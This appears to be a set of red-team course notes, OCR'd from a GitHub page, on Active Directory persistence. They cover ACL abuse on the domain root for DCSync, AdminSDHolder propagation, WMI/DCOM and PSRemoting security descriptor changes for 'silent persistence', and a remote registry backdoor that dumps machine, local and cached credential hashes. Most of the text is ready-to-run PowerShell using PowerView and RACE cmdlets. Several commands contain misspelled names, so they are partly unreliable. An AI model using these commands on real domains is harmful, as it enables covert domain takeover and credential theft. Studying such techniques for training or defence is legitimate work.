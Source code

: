 #powershell
- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- An object that holds a blueprint of ACLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-DomainObjectAcl -TargetIdneitity 'CN=AdminSDHolder, CN=System, DC=dollarcorp, DC=moneycorp, DC=local' -PrincipalIdenitty student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose

# We can veryfiy the domain admin privs using powerview
Get-DomainObjectAcl -Identity 'Domain  Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"} 
``` 
# Securable Objects
### Security Descriptor
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```

- By default, reguars users can't use remote WMI or Powershell remoting.
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User
- This is useful for maintaining very silent persistence, as this will only result in a normal logon in the DC logs, along with every other user logons.
This can be done by using the RACE toolkit
```powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

```
# Remote Registry
As a domain admin, we can use the `RACE` toolkit, to modify some registry keys, so that a regular user can:
- Retrieve machine account hash.
- Retrieve local account hash.
- Retrieve domain cached credentials.
```powershell
# Modify Regsitry keys
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee drdragon -verbose

# retrieve machine accout hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteCachedCrednetials -ComputerName dcorp-dc -Verbose
```